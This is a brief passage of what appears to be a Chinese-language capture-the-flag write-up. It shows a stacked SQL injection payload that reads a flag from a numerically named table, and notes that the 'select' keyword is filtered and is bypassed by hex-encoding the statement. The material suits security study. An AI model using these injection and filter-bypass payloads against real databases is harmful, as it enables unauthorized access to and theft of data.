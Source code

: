 查询flag时，select被过滤了

```
1';select flag from `1919810931114514`;
```

![image-20240409212336154](../图片/image-20240409212336154.png)

将下面的语句16进制编码

```
select flag from `1919810931114514`
```

![image-20240409213633600](../图片/image-20240409213633600.png)
